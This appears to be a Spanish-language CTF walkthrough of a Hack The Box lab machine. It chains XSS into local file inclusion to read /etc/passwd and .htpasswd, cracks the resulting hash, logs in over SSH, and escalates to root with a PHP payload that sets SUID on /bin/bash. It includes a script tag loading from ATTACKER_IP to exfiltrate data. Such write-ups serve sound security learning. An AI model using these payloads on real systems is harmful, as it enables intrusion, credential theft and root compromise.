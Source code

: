 ### 2. **Local File Inclusion (LFI)**
- **Método:** XSS chaining para realizar LFI desde sesión privilegiada
- **Endpoint vulnerable:** `messages.php?file=`
- **Path traversal:** `../../../../../etc/passwd`
- **Archivos exfiltrados:**
  - `/etc/passwd` (enumeración de usuarios)
  - `/etc/apache2/sites-available/000-default.conf` (configuración Apache)
  - `/var/www/statistics.alert.htb/.htpasswd` (credenciales hasheadas)

### 3. **Password Cracking**
- **Hash encontrado:** `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/` (Apache MD5)
- **Herramienta:** Hashcat
- **Credenciales obtenidas:** `albert:manchesterunited`

### 4. **SSH Access**
- **Usuario:** albert
- **Contraseña:** manchesterunited
- **Acceso logrado:** Shell interactiva como usuario `albert`

### 5. **Privilege Escalation via SUID**
- **Servicio vulnerable:** Web server interno (puerto 8080) ejecutándose como root
- **Capacidad de escritura:** Directorio `/opt/website-monitor/monitors/`
- **Técnica:** Creación de archivo PHP que modifica permisos SUID de `/bin/bash`
- **Payload:**
  
```php
  <?php system("chmod u+s /bin/bash"); ?>
```

- **Shell root:** `bash -p`

---

## Flujo de explotación:**

1. **Crear archivo Markdown malicioso:**
   
```bash
   echo '<script src="http://ATTACKER_IP/pwned.js"></script>' > malicious.md
```

2. **Iniciar servidor HTTP:**
```bash
   python3 -m http.server 80
```

3. **Subir archivo `.md` en la aplicación web**

4. **Obtener link del archivo subido**

5. **Enviar link al administrador vía formulario "Contact Us"**

6. **Recibir datos exfiltrados en base64:**

```bash
   # Decodificar respuesta
   echo "BASE64_STRING" | base64 -d
```

---